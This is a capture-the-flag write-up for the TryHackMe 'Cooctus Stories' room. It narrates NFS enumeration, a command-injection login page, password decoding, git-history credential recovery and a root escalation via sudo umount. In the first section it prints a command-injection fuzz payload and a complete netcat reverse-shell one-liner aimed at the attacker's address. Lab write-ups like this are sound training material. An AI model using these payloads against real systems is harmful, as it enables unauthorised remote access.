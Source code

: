 # Cooctus Stories

https://tryhackme.com/room/cooctusadventures

A fun room with a five flags, four users and root. The initial foothold took me longer than it should have, admittedly, as it was fairly simple in retrospect. The challenges in this room are more on the CTF side, in my view, than 'real' (for whatever thats worth), but still pretty fun.

## Paradox flag

1. Recon revealed a bunch of ports: 22, 111, 8080, 2049 and some RPC ports. 111 and 2049 were not properly identified by Rustscan/nmap -sV, but are NFS bind ports.
2. On the website on 8080, there was /cat and /login, with the former redirecting to /login which was a 'cookieless' login. I couldn't find any obvious way past this.
3. Going back to the ports, I eventually tried checking for NFS mounts. `showmount -e <IP>` showed an exposed mount, which I mounted with `mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock`. This got me a credentials.bak file that contained the creds for the login page.
4. This took me to the /cat page, where there was a simple input to 'test payloads' - whatever I entered was echoed back.
5. This took an embaressingly long time to realise that this was a straight command interpreter - I guess I was expecting this to reflect data, like `cat /etc/passwd`. It was not until I ran burp's fuzz payload and it froze the server with `{} || ping -n 30 127.0.0.1` (a 30 second per ping, infinite cmd wtf) that I realised. Even then I thought the `{} || ` was necessary until I looked at the app.py later.
6. Using the standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.7 4444 >/tmp/f` I got a reverse shell as the user Paradox.

## Szymex flag

1. To upgrade the shell, I created a authorized_keys file in Paradox's folder, then ssh'd in.
2. Paradox could read a few files in Szymex's folder, specifically a python script that encoded an unreadable file and compared the result to a given string.
3. I had a crack at reversing this, but started by simply running the encoder against the encoded string, which reversed to what turned out to be syzmex's password.

## Tux flag

1. In tux's home folder there were two folders readable by `testers`, which szymex was part of, `_1` and `_3`. To find the `_2` folder I ran a find on the testers group.
2. These three folders contained three parts of a hex string - the first contained a c file which had encoded via define statements every part of the code with variations on 'noot'. I just find and replaced until I had the first part of the string.
3. In the second folder was a PGP encoded file, and the key for said file, so `gpg --import` and `gpg -d` got me the middle part of the string.
4. The third and final folder just contained the last part of the string with no challenge. Putting them together, it looked like a md5 hash, and I reverse it quickly via crackstation to get Tux's password.

## Varg flag

1. Varg's folder had a python file named 'cooctusos' that could be run via sudo by Tux, as varg. Adjacent was a directory containing the source code for this OS.
2. In there was a .git folder, so I used `git log` to get its history, then `git show` on the earlier commit to get a username and password. Using this with the sudo command got me a restricted shell.
3. To get to a proper shell I was able to grab the existing private key from varg's .ssh folder. I later realised the password I'd used on the OS was vargs actual password, so that probably would have worked too.

## Root flag

1. This final flag was bit tricky, just because it was confusing. Varg could run umount as root, but umount wasn't on gtfo bins, and its usually suid so why make it sudo?
2. I knew from earlier enumeration, that /opt/coocktusos was mounted, to the src dir in varg's home folder. So I guessed it was something with this but I couldn't figure out how this could be used for privesc.
3. In the end I just unmounted that folder, and to my surprise, in its place was a /root folder. Maybe an onion thing? Outer layer the original mount, inner layer the prior mount?
4. The root folder contained a root.txt file but it didn't contain a flag. However, there was an .ssh folder with a private key, so logging in with that got me root :)

And thats it! Multiple steps, fun!
